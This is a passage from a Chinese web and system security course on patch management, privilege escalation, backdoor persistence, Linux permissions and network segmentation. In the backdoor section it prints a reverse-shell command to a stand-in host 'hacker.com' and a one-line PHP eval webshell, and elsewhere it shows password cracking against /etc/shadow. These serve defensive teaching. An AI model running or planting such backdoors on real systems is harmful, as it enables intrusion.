#### 第二步：管理插件补丁更新

一旦某个插件出现漏洞，通常插件的运维方都会尽快推出补丁。有的公司还会设立**专门的部门和人员进行补丁管理的工作**。一旦出现漏洞和补丁，公司会先评估漏洞的严重性，然后设定打补丁的优先级，推动研发人员进行更新操作。

所以，建立插件防护体系的第二步，就是**要知道你有哪些插件需要更新**。但是，在实际工作中一个应用随便就依赖几十个插件，你当然没办法一个一个去查询插件的更新状态了。那**Version Maven Plugin**就是用来帮你检查版本更新的一个工具。

你可以看到，在下面的分析结果中，通过mvn version:display-dependency-updates这个命令，我们就能发现 JUnit 有一个新的 4.11 版本。 

```sh
$ mvn versions:display-plugin-updates versions:display-dependency-updates
...
[INFO] --- versions-maven-plugin:2.1:display-plugin-updates (default-cli) @ sample-maven ---
[INFO]
[INFO] The following plugin updates are available:
[INFO] maven-deploy-plugin ...................................... 2.7 -> 2.8
[INFO]
[INFO] All plugins have a version specified.
[INFO]
[INFO] Project defines minimum Maven version as: 3.0
[INFO] Plugins require minimum Maven version of: 3.0
[INFO]
[INFO] No plugins require a newer version of Maven than specified by the pom.
[INFO]
[INFO]
[INFO] --- versions-maven-plugin:2.1:display-dependency-updates (default-cli) @ sample-maven ---
[INFO] The following dependencies in Dependencies have newer versions:
[INFO] junit:junit ............................................. 4.10 -> 4.11
...
```

尽管 Version Maven Plugin 也提供自动更新的功能，不过我更推荐你**手动进行更新**。因为对于插件的版本变更，其兼容性并没有保证，而且你也无法保证，插件在更新的过程中，不会对它原本的功能产生影响。

那使用了补丁管理工具之后，我们就可以完全放心了吗？当然不是。**补丁管理中依旧存在一些问题**，我这里从 3 个方面帮你梳理了一下，你可以作为了解。 

- 补丁可用性：并不是所有的插件漏洞，都能有最新的补丁进行及时地更新和维护。很多时候，运维人员会面临一个已知的漏洞，但无补丁“可打”的窘迫局面。
- 覆盖面不全：实际上，并不是所有语言都能够很好的进行插件分析工作，这也就导致运维人员无法掌控公司内使用的所有插件。这个时候，必然会产生一定的漏洞疏忽。
- 更新时间延迟：为了提高打补丁的效率，补丁管理一般会按月或者按季度进行集中的打补丁工作。而在这个期间，公司的应用就会处于无保护的状态。 

为了解决这些问题，**虚拟补丁**的概念就被提出了。所谓虚拟补丁，就是在不对应用插件进行升级的情况下，有效阻止攻击流量。实现的原理也很简单，即在前置的网络或系统中，对针对插件漏洞的攻击流量进行检测和拦截即可，大部分防火墙、IPS 等安全防御工具，都会提供虚拟补丁的功能。

比如，2017 年，**永恒之蓝**肆虐的时候，防火墙会直接封禁 445 端口请求，就相当于给所有的 Windows 系统，打上了虚拟补丁。然后，只需要等到所有Windows 都真正更新补丁之后，再放开对 445 端口的限制即可。


#### 第三步：使用公开漏洞库

最后，你还需要知道，在你所使用的插件中，是否已经存在了公开的漏洞。 

我在讲解知名插件漏洞的例子中，提到了一些漏洞的编号：脏牛（CVE-2016-5195）、心脏滴血（CVE-2014-0160）和 Structs 2 的漏洞（CVE-2017-5638）。细心的同学可能已经想要问了，那这些编号是怎么来的呢？又代表了什么含义呢？

实际上，每个漏洞的编号都是该漏洞在公开漏洞库的唯一编号。我提到的这三个编号，开头都是 CVE，也就是说，这三个编号的信息都存在于 CVE（Common Vulnerabilities &Exposures，公共漏洞和暴露）这个公开漏洞库中，你可以根据漏洞的唯一编号，在 CVE中快速地找到这个漏洞相关的信息，包括：受影响的版本、可能造成的影响、修复的方法及补丁等。

除了 CVE 之外，**公开的漏洞库**还包括CWE（Common Weakness Enumeration，通用缺陷列表）、CVSS（Common Vulnerability Scoring System，通用漏洞评分系统）、NVD（National Vulnerability Database，国家信息安全漏洞库）以及 CNVD(China National Vulnerability Database，中国国家信息安全漏洞库）。

每当漏洞库中新曝出一个漏洞时，你需要分析这个漏洞所涉及的插件：是否在公司中有被使用；公司中使用的，是否是受影响的版本；这个漏洞会产生哪些危害等等。这样，你才能够尽快地修复各类已知的插件漏洞，降低应用被黑客攻击的可能。

那实际工作中，我们其实也可以借助工具，自动化地完成匹配公开漏洞库的工作。**OWASP Dependency-Check** 是一款专门进行**插件漏洞检测的工具**。它会将工程内的插件和公开的漏洞库进行比对。最终，会生成一个**网页形式的报告**，使你对工程中的插件漏洞一目了然了。

下图就展示了，如何通过 OWASP Dependency-Check 发现一个 3.2.1 版本的 Commons-Collections 的高危漏洞。 


同理，在其他语言中，也会存在类似的插件管理工具。比如对于 **JavaScript 中的插件**，我们可以使用**Retire.js**进行整理。

总结来说，我们在建立插件漏洞的防护体系时，会使用这些自动化管理工具完成这样三件事情： 

- 统计你的应用中引用了哪些插件
- 管理这些插件中是否有版本更新
- 检测这些插件是否存在已知的漏洞 

根据这些信息，你就能够对应用中的插件安全性，有一个比较完整的认知了。接下来，在实际使用的过程中，我们根据漏洞的更新情况，有针对性地修复即可。


### 总结

在开发应用的过程中，我们总是需要引入各种第三方插件。而这些第三方插件的漏洞，尽管看起来很容易解决，只需要一直使用最新的插件，并保持更新即可。但是，往往因为版本更 新繁琐，且无法带来业务收益，很多公司都会因此忽视插件漏洞的防护工作。所以，在应用中存在一个好几年前的插件漏洞并不奇怪。

提高版本更新的效率、避免插件漏洞，主要可以分三个步骤：首先我们可以使用插件分析工具，来了解应用中包括了哪些插件；然后，可以通过补丁管理制度和虚拟补丁，来推进对插件漏洞的管理和修复工作；最后，我们可以对比公开漏洞库（比如 CVE 等）中的最新漏洞，及时修复漏洞，降低被黑客攻击的可能。

把这一讲的重点内容梳理了一个脑图。


### 思考题

你可以尝试对你的应用作一次插件分析，看看会不会出现已知的安全漏洞。除此之外，你还可以对应用的外部依赖（数据库、Web 服务、操作系统等）进行一次调查，在当前版本中，是否存在公开的漏洞？ 


## 权限提升和持久化

各种漏洞的产生和防护方法，比如：XSS、SQL 注入、CSRF、SSRF 和插件漏洞。除了这些漏洞之外，我也着重强调了一点，黑客善于通过“蛛丝马迹”推断出代码逻辑，然后发起攻击。学习了这些内容，在实际工作的过程中，我们其实就能基本避免大部分的 Web 安全问题了。

但是，有一天，我又遇到了新的问题。当我在进行日常**审计**的时候，突然发现内网有黑客的操作痕迹。于是，我马上对黑客的攻击路径进行溯源。最后发现黑客是通过某个应用的 SSRF 漏洞进入的.

之前我们提到过，SSRF 通常用来作内网探测，那么黑客是如何通过 SSRF 拿到服务器权限的呢？更神奇的是，这个存在 SSRF 漏洞的应用，在排查的时候早已经**下线**了。那么，黑客是如何在漏洞已经下线的情况下，仍然能够进出内网呢？

### 权限提升：为什么黑客能通过 SSRF 拿到服务器权限

首先，我们先来搞清楚，黑客是如何通过 SSRF 拿到服务器权限的。在解决这个问题之前，我们先来了解一个概念，权限提升。

在应用或系统中，黑客或者被黑客控制的用户，通常会通过漏洞攻击或者利用弱密码，获取到其他用户的权限。在获取了新的用户权限之后，黑客就能够以新用户的身份去窃取和篡改数据，进行非法的操作了。这就是权限提升（Privilege Escalation）。也就是说，黑客可以通过不断**获取新的身份**，来不断扩大（或者叫提升）自己的权限，不断扩大攻击影响，最终实现控制整个系统。

好了，现在你应该知道权限提升是什么了。事实上，权限提升还可以根据攻击效果分为两类，即水平提升和垂直提升。

**水平提升**是指黑客获取了另外一个“平级”用户的权限。尽管权限等级没变，但因为黑客控制的用户身份发生了变更，所以黑客能够获得新的数据和权限。比如，常见的**普通用户被盗号**就是一种水平提升。黑客本来只能够登录自己的账号，但他却通过破解密码的方式，登录到其他用户的账号，从而可以查看他人的个人信息，利用他人账号进行交易转账。

相比较来说，**垂直提升**的危害性更大。通过垂直越权，黑客能够获得一个更高级别的权限，通常来说，是应用的管理员或系统的 ROOT 权限。拥有高等级权限后，黑客自然就能够获取到大部分的数据了。除此之外，通过高等级的权限，黑客还能够禁用审计功能、删除相关日志，从而隐匿自己的行踪，让你无法发现攻击事件的存在。

前面我讲过，在我经历的这个事件中，黑客是利用 SSRF漏洞进入的内网，那在了解权限提升的原理和分类之后，我们接着来分析一下，**黑客是如何通过 SSRF 漏洞做到权限提升的**。

首先，这个 **SSRF 是有回显的**，所有内网请求的响应都能够直接被黑客看到。所以，黑客利用.svn 文件的信息泄漏，一点一点请求内网的各种地址，最终获得了一台服务器上的代码。获得代码之后，黑客通过分析，知道这个服务器存在 SQL 注入漏洞。于是，黑客通过**SQL 注入**，成功在这台服务器上执行了命令。然后，黑客就开始对内网进行 **SSH 扫描**，最终以用户名“root”和密码“123456”，成功获得了一台内网服务器的 ROOT 权限 。


事实上，几乎所有的漏洞和攻击（包括前面讲到的几个 Web 漏洞）都可能导致权限提升。总体来说，权限提升的方法可以分为下面这两种。 

- 窃取身份：前面我们讲过，身份认证的相关风险和攻击包括：无认证、弱密钥、认证信息泄漏和认证环节破解等。这些攻击的最终结果其实都一样，就是黑客成功登录了他人的账号，也就意味着权限提升的发生。
- 利用漏洞获得权限：从行业现状来说，对于补丁管理的工作普遍做得不到位，各种有漏洞的系统和插件仍在大量使用。因此，权限提升最普遍的方法还是利用漏洞获得权限。这其中，既包括已公开的漏洞，比如上节课中提到的“脏牛”，还包括很多资深黑客所掌握的“0 day”漏洞。 


### 权限持久化：为什么漏洞修复了，还有“后门”

好了，现在你已经知道了，黑客可以利用漏洞攻入应用，最终实现了权限提升，那我们修复了这个漏洞是不是就能避免权限提升的发生呢？当然不是，在开头的例子中，带有 SSRF 漏洞的应用也已经被下线了呀，那为什么黑客还是能够自由进出呢？下面，我就详细来说一说。 

#### 什么是“后门”

想要解决这个问题，我们先要来看一下**“后门”的概念**。当黑客通过权限提升，成功获取到一个高级别的权限后，为了保留这个权限，黑客会在应用中留下一个隐藏的进程，下次只要黑客想再次进入，就可以通过这个进程来连通，而不需要再次去绕过各种安全流程。这就是“后门”。也就是说，“后门”能够让你在不经过正常流程的情况下，就直接获得一些权限。

在我前面讲的例子中，黑客就是在攻进系统后，给自己留下了一个“后门”，开辟了一条非正规的快速通道。那**黑客是怎么操作的呢？**

比如说，黑客在进入服务器之后，会留下下面这样一个**脚本**，让这个脚本，每分钟都执行一次： 

```sh
bash -i >& /dev/tcp/hacker.com/8080 0>&1
```

这个脚本运行后，只要 hack.com 的 8080 端口打开，那么服务器就会通过 TCP 获取8080 端口返回的命令并执行。因此，只要黑客任意时刻在 hacker.com 中监听 8080 端口（比如通过 nc -l 8080），就可以获得服务器定时送上来的命令执行权限。

所以，不管漏洞是否修复，黑客都可以通过这个快速通道轻松进入系统。而“后门”的关键意义就在于，为黑客长时间保持高权限的通道，使得黑客能够进行长时间地潜伏和攻击。

比较有意思的是，“后门”不仅仅是为黑客服务的，**正常的应用中**可能也会留下一些“后门”以备特殊情况。比如，2008 年，微软曾进行过一次打击盗版 Windows 的行动，当时国内的**盗版 Windows** 在同一时间出现了**黑屏现象**。显然，微软不可能知道所有人的管理员密码，但是微软会通过预留的“后门”实现对系统的控制。类似情况还有很多，比如，管理员在特殊情况下（比如忘记密码），可以通过“后门”对应用进行一些操作。 


#### “后门”是如何工作的

接着，新问题又来了，既然修复漏洞之后，黑客依然可以通过“后门”自由进出，那我们该如何关掉这个“后门”呢？我们先来看看“后门”是如何工作的，知道了它的**工作原理**，我们才能“对症下药”，从根本上解决问题。 

我们前面课程讲过的所有攻击方式，通常都是为了造成一些显式的攻击。而“后门”的目的则不同，“后门”会尽力隐藏自己不被别人发现。因此，“后门”通常会以木马的形式出现。

所谓**木马（Trojan）**，就是一些外表看起来正常，但会对应用和系统进行破坏的服务和进程。比如，很早之前流行过的**“灰鸽子”木马**，就是和正常的应用绑定在一起。这样“灰鸽子”就能在应用运行的时候监控应用的全部操作了（屏幕、键盘、摄像头等）。又因为应用正常的功能不会受到影响，所以，用户几乎感知不到“灰鸽子”的存在。

那木马可不可以不依附于应用，直接隐藏自己呢？当然可以。那么，“后门”就发展成了**Rootkit**。通常来说，Rootkit 会**驻扎于内核中**，通过修改内核的逻辑来完成“后门”的功能。因为内核具备较高的权限，所以 Rootkit 就能破坏杀毒软件这样的安全进程，而不被轻易发现。同样地，因为 Rootkit 驻扎在内核中，理论上，除了重装系统以外，没有其他更好的方式来根除“后门”。

除了以隐藏进程的形式运行“后门”，黑客也可以把“后门”留在正常的 Web 服务中，这就变成了 **WebShell**。在 **PHP** 中，最简单的一句 WebShell 如下： 

```php
<?php @eval($_POST['shell']);?>)
```

只要将这个 PHP 文件放到 Web 服务的目录中，黑客就可以通过在 POST 参数中填入Shell 命令远程操控服务器。

> 详细内容参见：[HackerMeWeb：后端安全：文件上传漏洞：Webshell](HackerMeWeb.md)

总之，“后门”通常会以木马、Rootkit 或者 WebShell 等比较隐蔽的形式运行在系统中。而黑客可以通过和“后门”的直接通信，来获得服务器的操控权限。


#### 黑客如何将“后门”植入到系统

好了，现在你应该知道“后门”是如何工作的了，那黑客又是怎么将“后门”植入系统的呢？

毫无疑问，**最直接的方式就是通过权限提升**，即黑客直接获取到系统的命令执行权限，然后通过网络将“后门”程序从云端下载下来。 

除此之外，黑客还可以通过**文件上传漏洞**向服务器上传一个程序。在使用应用的时候，用户经常需要上传一些文件，比如：头像的图片、邮件附件和简历等。很多时候，开发人员为了方便，会直接将上传的文件存储到当前目录，也就是 Web 服务的目录中。这个时候，如果黑客上传的是一个 PHP 文件，那么这个 PHP 文件就会被放入到 Web 服务的目录中。因此，黑客只需要上传一个包含 WebShell 的 PHP 文件，就成功了植入了一个“后门”。

通过权限提升或者文件上传漏洞成功植入“后门”之后，黑客还需要**保证“后门”的持久化**。因此，“后门”需要**常驻于系统的后台**，并能够随着系统的开关机而启动。为了实现这个目的，黑客通常会在定时任务（crontab）或者开机启动项（inittab、rc.local）的配置中，加上“后门”的执行命令。

除此之外，黑客还可以利用伴随于系统的常驻进程来保证“后门”的持久化。对于WebShell 来说，只要 Web 服务保持可用，那么 WebShell 也一直可用。对于 Rootkit 来说，它们会直接篡改内核的初始函数来进行自启动，也就更难被发现和去除。总之，持久化要么是通过定时任务、开机启动等方式来实现，要么就是通过伴随于系统的常驻进程来实现。 


### 面对权限提升和持久化，该怎么进行防护

好了，现在你应该已经知道，权限提升和持久化的原理和攻击方式了。那面对权限提升和持久化，我们该如何防护呢？这里我为你介绍两种常见的防护方法，它们分别是：**最小权限原则和 IDS**。下面，我们一起来看。

- 首先，最基础的防护是从制度和技术上去落实最小权限原则。所谓最小权限原则，就是**给每一个用户和进程等，只分配它们需要用到的权限**。从技术实现上来说，可以通过配置一定的**访问控制策略**来进行强化，比如在 Linux 中给予特定进程单独的角色权限等。通过最小权限原则的落实，你就能够限制黑客在每一次权限提升时得到的收益，甚至阻断黑客权限提升的可能。
- 其次，就是利用 IDS（Intrusion Detection System，入侵检测系统）对黑客的异常行为进行检测。IDS 的检测原理就是，通过分析正常用户和黑客在网络层或者主机层中的行为异同，来识别黑客的攻击。比如，正常用户不会去连接内网中不相干的主机，而黑客则必须通过扫描去探测内网等。 

如果黑客已经在进行权限提升和持久化的操作了，这就意味着应用和系统已经出现了各种漏洞。因此，在这个前提下，我们要考虑的不是如何去修复和避免漏洞，而是**在出现漏洞后，如何降低损失并尽早发现漏洞**。这其实也是安全中纵深防御的一种思想：对不同的层级进行不同的防御，即使前面层漏过了，下一层还能够接着进行防护。


### 总结

我们知道了，在进入一个系统后，黑客会进行一系列的操作来扩大自己的权限和攻击影响，这些操作可以被概括为权限提升和权限持久化。权限提升就是利用各种漏洞进行水平或者垂直的扩展，去获得新的身份和权限。权限持久化则是留下“后门”，并保持“后门”的长期有效性。

为了阻止黑客的进一步攻击行动，我们需要对应用和系统进行相应地防御和检测。最基本的就是强化最小权限原则，限制黑客权限提升的收益。其次就是对一些异常的入侵行为进行检测，通过分析在网络层或者主机层中，正常用户和黑客的行为异同，从而及时发现黑客的行为。 

我把这一讲的重点内容梳理了一个脑图。 


### 思考题

想象一下，现在你是一个黑客，你已经拥有了服务器的普通用户权限（相信你确实有）。那么，基于这个权限你能够进行哪些操作呢？这些操作会对应用和公司的安全产生哪些影响？ 


## Linux系统安全

从这一讲开始，我们讨论 Linux 系统和应用安全。我们知道，在开发一个应用的过程中，需要涉及代码、操作系统、网络和数据库等多个方面。所以，只是了解代码安全肯定是不够的，我们还需要了解常见的基础环境和工具中的安全机制，学会通过正确地配置这些安全机制，来提升安全保障。

谈到 Linux，我相信你每天都在使用 Linux 进行各种开发和运维操作。但是，大多数情况下，公司不会给每一个员工分配专有的 Linux 服务器，而是**多个开发和运维共用一台 Linux服务器**。那么，其他员工在使用 Linux 服务器的时候，会不会对我们自己的数据和进程产 生影响呢？另外，我在 Web 安全中讲过，黑客可以通过很多漏洞控制 Linux 服务器，那我们又该如何避免和控制黑客的破坏呢？

### 如何理解 Linux 中的安全模型

要解决这些安全问题，我们首先要了解一个安全模型，Linux 的安全模型。

我们先来看一下 Linux 的构成，Linux 可以分为**内核层和用户层**。用户层通过内核层提供的操作接口，来执行各类任务。

内核层提供的**权限划分、进程隔离和内存保护**的安全功能，是用户层的安全基础。一旦内核安全被突破（比如黑客能够修改内核逻辑），黑客就可以任意地变更权限、操作进程和获取内存了。这个时候，任何用户层的安全措施都是没有意义的。

既然 Linux 的内核安全这么重要，那我们是不是要在防护上付出大量的精力呢？事实上，正如我们不需要在开发应用时（尤其是使用 Java 这类相对高层的语言时），过多地关心操作系统相关的内容一样，我们在考虑 Linux 安全时，也不需要过多地考虑内核的安全，更多的是要**考虑用户层的安全**。所以，对于 Linux 内核层的安全，我们只需要按照插件漏洞的防护方法，确保**使用官方的镜像并保持更新**就足够了。

既然，使用最多的是用户层，那我们就来看一下，用户层的操作都有什么。

在 Linux 中，用户层的所有操作，都可以抽象为“主体 -> 请求 -> 客体”这么一个流程。比如，“打开 /etc/passwd”这一操作的主体是实际的用户，请求是读，客体是/etc/passwd 这个文件。 


在这个过程中，Linux 内核安全提供了基于权限的访问控制，确保数据不被其他操作获取。

Linux 用户层则需要确保权限的正确配置，这就是我开篇提到的，如何保证多人安全地共用服务器的关键。


### 黄金法则是如何在 Linux 系统中应用的

现在我们知道了，Linux 系统安全防护的**核心是正确配置用户层权限**。那接下来，我们就从 黄金法则 的认证、授权和审计这三个方面来看一下，Linux 系统是如何进行权限配置的。

#### Linux 中的认证机制

Linux 系统是一个支持多用户的操作系统，它通过普通的文本文件来保存和管理用户信息。这其中，有 2 个比较关键的文件：**/etc/passwd和/etc/shadow**。

我们知道，在 Linux 中，/etc/passwd是全局可读的，不具备保密性。因此，/etc/passwd不会直接存储密码，而是用 x 来进行占位。那实际的用户密码信息，就会存储到仅 ROOT 可读的/etc/shadow中。

在/etc/shadow中，除了加密后的密码，也保存了诸如密码有效天数、失效多少天告警之类的**密码管理策略**。我们可以通过 Chage 命令来对密码管理策略进行修改，比如，通过下面的 **Chage 命令**，就可以强制 test 用户在 60 天内必须对密码进行修改。通过这样的方式，就可以降低密码泄漏的可能性了。 

```sh
chage -M 60 test
```

因为认证这个功能是由 Linux 内核来提供的，所以在用户层，我们需要关心的安全问题，就是**弱密码**导致的身份信息泄漏。为了解决这个问题，在/etc/shadow中，我们可以制定适当的密码策略。除此之外，我们也可以通过 **John the Ripper**，使用已知的弱密码库，来对 Linux 中的弱密码进行检测。下面的命令，就是使用 John the Ripper 检测弱密码。 

```sh
unshadow /etc/passwd /etc/shadow > mypasswd
john mypasswd
john --show mypassw
```


#### Linux 中的授权机制

在“黄金法则”中，认证只是第一步，它提供了一个可信的身份标识。有了这个身份标识之后，就需要通过授权，来限制用户能够发起的请求了。

在 Linux 中，客体只有**文件和目录**两种，针对这两种类型的客体，Linux 都定义了**读、写和执行**这三种权限。你可以通过我总结的这张对比表格看到，文件和目录在这三种权限上的区别。 


除此之外，Linux 还提供了一些额外的**权限标签，来进行更细粒度地权限控制**。

- 比如，Linux 提供了**文件属性**的概念，来对文件设置更多的保护。通过chattr +i /etc/passwd可以防止文件被任何用户修改。想要了解更多的文件属性，你可以参考 Wikipedia。
- Linux 还提供了**“粘滞位”**的功能，主要用来防止用户随意操作其他用户的文件。比如chmod +t /tmp可以阻止删除 /tmp 目录下其他用户的文件。

这些都是 Linux 在授权中的自我保护机制，那我们能在这个过程中进行怎样的防护呢？

前面，我们一直在强调，Linux 系统面临的安全威胁其实就是**权限问题**。也就是说，要么就是敏感文件的权限配置不当，导致这些文件可以被额外的用户访问或执行；要么就是应用存在漏洞或密码泄漏，导致低权限用户可以获得更高的权限。

要解决权限问题，我们就要**实践最小权限原则**。

我们先来看一个 Linux 系统安全中最普遍的问题：**滥用 ROOT**。很多人在登录 Linux 系统后，第一个命令就是通过 su 来获取 ROOT 的 Shell 环境，这样我们就不需要在每次操作的时候，通过 sudo 来临时提升至 ROOT 权限。 

但是，这里你需要注意一点，在 ROOT 的 Shell 环境中，启动的所有进程也都具备 ROOT权限。如果启动的是一个立即返回的进程，如 CAT，不会有太多问题，但如果是一个长期运行的进程，就很容易产生权限的滥用。

> 比如，当你以 ROOT 的身份启动 Redis 或者 MySQL 等存储工具时，如果这时有其他用户连入 Redis 或者 MySQL，那他们也能间接地获取 ROOT 的权限。在大部分服务器入侵的场景中，黑客都是通过这些具备 ROOT 权限的进程漏洞，来实现权限提升的。

因此，在运行任何长驻进程时，我们都需要谨记“最小权限”原则。也就是说，我们可以根据要执行的操作等级，**配置“最小权限”来启动常驻进程**。比如，如果只是在 Redis 和MySQL 这样的数据库中进行文件读写操作，根本不需要 ROOT 这种最高等级的权限。

因此，“最小权限”原则在 Linux 系统中的应用是非常重要的。那你可能会问了，Linux 系统中的操作那么多，每个操作都需要自己进行权限配置吗？当然不是，我们常常会使用一些已知的工具，来实现“最小权限”启动长驻进程的功能，而你需要做的，就是正确地启动或者配置这些工具。

比如说，我们可以**通过 mysqld 启动 MySQL 服务**，mysqld 会将 MySQL 的进程分配到“mysql”这个用户，并在 ROOT 下建立守护进程。具体的效果如下： 

```sh
root 297353 0.0 0.0 115432 1360 ? S Aug12 0:00 /bin/sh /usr/local/mysql/bin/mysqld_safe --datadir=/var/lib/mysql --pid-file=/var/lib/mysql/mysql.pid

mysql 297553 31.3 4.3 11282756 5729572 ? Sl Aug12 22593:40 /usr/local/mysql/bin/mysqld --basedir=/usr/local/mysql --datadir=/var/lib/mysql --plugin-dir=/usr/local/mysql/lib/plugin --user=mysql --log-error=/var/log/mariadb/mariadb.log --pid-file=/var/lib/mysql/mysql.pid --socket=/var/lib/mysql/mysql.sock
```

类似的，当**启动 Nginx** 时，Nginx 会将 Worker 节点以 nobody 的用户身份来执行。具体的效果如下： 

```sh
root       7083  0.0  0.0  61032  5324 ?        Ss   Aug12   0:01 nginx: master process nginx
nobody   331122  0.0  0.0  90768 31776 ?        S    11:44   0:00 nginx: worker process
nobody   331123  0.0  0.0  90768 32720 ?        S    11:44   0:00 nginx: worker process
nobody   331124  0.0  0.0  90768 31776 ?        S    11:44   0:00 nginx: worker process
```

当然，也有一些工具**不提供**这类最小权限切换的功能，比如，在直接执行redis-server启动 Redis 的时候，就需要我们自己来对用户身份进行切换。那用户身份切换怎么做呢？

我们首先来看 **Nginx 的例子**，在启动 Nginx 的时候，Linux 提供了 nobody 这么一个用户的身份。实际上，任何人进入 Linux 系统首先获得的用户身份就是 nobody，然后再从nobody 进行登录，切换到其他正常用户身份上。

因此，**nobody 通常拥有整个操作系统中最小的权限**。所以，对于不提供最小权限切换功能的工具，我们就可以使用 nobody 的用户身份，来进行主动切换了。

在执行**redis-server启动 Redis** 的时候，我们就可以通过以下命令，以 nobody 的身份执行redis-server了（前提是，我们需要对日志和 PID 等目录进行适当配置，确保能够以 nobody 身份写入）： 

```sh
su -s /bin/redis-server nobody
```

这样一来，我们就能通过“最小权限”原则，提升 Linux 系统授权的安全性了。


#### Linux 中的审计机制

我们在前面的课程中说过，“黄金法则”中的审计主要就是**日志记录和分析**。那么，Linux系统中的日志都有哪些呢？在 Linux 系统中，**系统的日志信息通常存储在 /var/log 目录**下，部分应用程序也会把相关日志记录到这个目录中。系统日志主要分为 3 类，**用户登录日志、特殊事件日志和进程日志**。

- 用户登录日志主要是/var/log/wtmp和/var/run/utmp，用来保存用户登录相关的信息。用户登录日志本身为二进制文件，我们无法直接通过文本方式查看，但是可以配合who/users/ac/last/lastlog这样的命令来获取。
- 特殊事件日志主要包括/var/log/secure和/var/log/message。
  - 其中，/var/log/secure主要记录认证和授权相关的记录，如果有人试图爆破 SSH，我们就可以从这个日志中观察来。
  - /var/log/message由 syslogd 来维护，syslogd 这个守 护进程提供了一个记录特殊事件和消息的标准机制，其他应用可以通过这个守护进程来报告特殊的事件。
- 进程日志：当通过 accton 来进行系统进程管理时，会生成记录用户执行命令的 pacct 文件。

默认情况下，Linux 会通过 logrotate 对日志执行相应的保留策略（比如日志切割和旧日志删除等）。通过配置/etc/logrotate.conf 可以对不同日志的保留策略进行修改。

那如何对日志进行监控呢？这里，我向你推荐 2 种常见的日志分析工具 **ELK 和 Zabbix**，你可以利用这些工具来监控 Linux 的安全日志。也就是说，我们可以通过在这些分析平台配置恰当的规则（如 SSH 登录尝试失败 3 次以上），来及时发现黑客的部分入侵尝试，迅速产生报警。然后，我们就可以针对具体的问题，进行人工复查了。


### 总结

Linux 系统安全可以说是“最小权限”原则的最佳实践平台，尤其是当存在多用户共同维护和使用一台服务器的时候，正确的配置权限将是一件很有挑战的工作。为此，我们必须严格限制 ROOT 权限的使用。同时，为了避免进程漏洞，适当的通过 **iptables** 进行访问限制，也能够起到不错的保护效果。

在 Linux 系统的自我保护基础之上，也有一些安全工具能够为系统提供额外的保护功能（如**杀毒软件、HIDS** 等）。

最后，我把这一讲的重点内容梳理了一个脑图。 


### 思考题

检查一下你的 Linux 服务器，看一下哪些用户具备 ROOT 权限？哪些进程具备 ROOT 权限？这些用户和进程，真的需要 ROOT 权限吗？我们是否可以利用今天学到的知识，对这些 ROOT 权限进行限制呢？ 


## 网络安全

你平时使用手机连接无线网络的时候，一定看到过这样的安全提示：不要连接**陌生的 WiFi**。也一定看过很多这样的报道：某先生 / 女士因为使用了陌生的 Wi-Fi，信息遭到泄漏，不仅账号被盗用，还造成了经济损失。

看到这些提示和报道之后，你就要产生警惕了，当你连入一个陌生的 Wi-Fi 时，这个 Wi-Fi下连接的其他人很有可能会看到你的信息，并且对你发起攻击。

你可能要说了，只要我避免连入陌生的 Wi-Fi，前面说的攻击就基本不会发生了。但是，在工作中，员工和服务器通常接入的也是同一个网络，那员工是不是就可以任意地捕获服务器 中的流量呢？其他人是不是也能轻易地窃取员工信息呢？内网又是怎么保证安全性的呢？

### 内网中的“最小权限原则”

我们先来看，内网是怎么保证安全性的。前面我们说过，在 Linux 系统中，我们可以使用“最小权限原则”来限制黑客的行动能力。而“最小权限原则”，在内网中同样适用。为了保证安全性，我们要限制黑客进入内网后的权限范围，也就是说，就算黑客能够进入内网，我们也只允许它在一个**有限的子网**内进行访问，而不能任意地访问所有服务。那内网中的“最小权限原则”究竟是怎么实现的呢？

在内网中，实现“最小权限原则”的核心在于**分区和隔离**。接下来，我们就一起来看，在公司内网中，分区和隔离具体是怎么实现的。

#### 对内网进行水平划分

我们知道，连入内网的人和设备，是具备不同的“身份”和“权限”的。比如，公司正式员工、外包员工和访客等，这些人所使用的内网服务区别很大。因此，我们需要**依据不同的“身份”来对网络区域进行隔离**，而这就需要用到 **VLAN** 提供的功能了。

那什么是 VLAN 呢？在一般情况下，连入同一个交换机的所有设备都在同一个网络中，两两之间能够相互访问。为了阻止这些设备相互访问，我们可以在交换机上设定，在不改变物理连接的情况下，**通过交换机的控制将这个网络划分为多个不同的子网，也就是 VLAN（Virtual Local Area Network，虚拟局域网）**。简单来说，VLAN 就是一个交换机创建出来的多个子网。因为隔离的存在，不同 VLAN 的访问请求，会被交换机阻止。

这样一来，我们就实现了对不同“身份”的人的网络隔离。 

#### 对内网进行垂直划分

事实上，对不同“身份”的人的网络隔离属于对内网进行水平划分。除此之外，公司也会对内网进行垂直划分。

最简单的，我们会**将公司内网整体保护起来，和外网进行隔离**，这种隔离就属于垂直划分。

在这种隔离之下，内网可以访问外网的资源，外网却不能够直接访问内网的资源。要实现这种隔离，就需要用到**路由器**了。路由器会将连入的所有内网设备打包在一起。所以，对外网来说，内网变成了一个整体，也就无法访问到某个具体的设备了。

在下图中，我简单地展示了一下**利用路由器和交换机对内网进行划分**的效果：通过路由器划分内网和外网，通过交换机划分正式员工网络和外包员工网络。实际上，你还可以对每一个VLAN 按照安全等级，进行进一步的垂直和水平划分。 


### 有线网络和无线网络安全

现在，你应该知道如何在内网中落实“最小权限原则”了。而网络作为一个数据传输的主要通道，保障其中数据的安全性，也是非常重要的。这其中包括**两个关键问题**。 

- 如何保障通道中的数据不被窃取？这涉及认证和加密的手段。
- 如何保障通道的接收方是可信的？也就是如何避免被“劫持”。 

在工作中，我们最常接触的两种网络就是有线和无线网络，接下来，我就结合前面这两个关键问题，带你探讨一下有线和无线环境中的网络安全。

#### 无线网络安全

无线网络你应该非常熟悉，我们在实际工作和生活中到处都需要用到无线网络。在无线网中，个人设备是通过**射频技术和无线热点**进行连接的。射频无法定向接收，因此，数据都是“**广播**”出去的。也就是说，只要在设备和热点附近，任何人都能接收到无线网络中的数据。 

为了保证无线网络数据的安全性，我们主要的防护手段，就是使用目前最安全的**无线网络协议 WPA2**。

但是，WAP2 协议只是用来保护无线网络中数据安全性的。它的连入密钥都是共享的，所以不具备严格意义上的认证功能。而公司需要通过认证知道每一个连入内网的设备的归属，来追踪每一个员工的操作。那无线网络中的认证是怎么做的呢？

一般的操作是对连入的用户实行“**强制门户**”。“强制门户”你应该很熟悉，就是当你使用公用密钥连入网络之后，还需要你在网页中**再次进行认证**。比如，在连入机场网络后，还需要你进行手机号验证。具体的原理就是，用户在连入 Wi-Fi 后，路由器会将用户的 HTTP请求重定向至认证页面。认证成功后，路由器会记录用户的身份和 MAC，后续路由器就可以根据 MAC 来识别用户身份了。 


